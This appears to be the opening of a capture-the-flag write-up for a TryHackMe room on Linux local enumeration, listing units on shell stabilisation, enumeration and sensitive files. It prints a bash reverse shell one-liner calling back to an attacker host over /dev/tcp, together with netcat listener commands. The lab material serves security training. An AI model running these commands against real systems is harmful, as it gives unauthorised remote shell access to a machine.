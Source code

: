 # Linux: Local Enumeration

**Room Link:** [https://tryhackme.com/r/room/lle](https://tryhackme.com/r/room/lle)



## Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (_access to a machine_)"?\
If your answer was "Yes", this room is definitely for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.\
Here's a list of units that are going to be covered in this room:

Unit 1 - Stabilizing the shellExploring a way to transform a reverse shell into a stable bash or ssh shell.

Unit 2 - Basic enumarationEnumerate OS and the most common files to identify possible security flaws.

Unit 3 - /etc Understand the purpose and sensitivity of files under /etc directory.

Unit 4 - Important filesLearn to find files, containing potentially valuable information.

Unit 6 - Enumeration scriptsAutomate the process by running multiple community-created enumeration scripts.\
Browse to the `10.10.122.141:3000` and follow the instructions.To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).\
How reverse shells work in a nutshell:\


<figure><img src="https://i.imgur.com/WlwnnqK.png" alt=""><figcaption></figcaption></figure>



**rev.sh**

```
bash -i >& /dev/tcp/$KALI/4444 0>&1
```

**Kali**&#x20;

```
nc -lnvp 4444
```

<figure><img src="../../.gitbook/assets/image (1151).png" alt=""><figcaption></figcaption></figure>
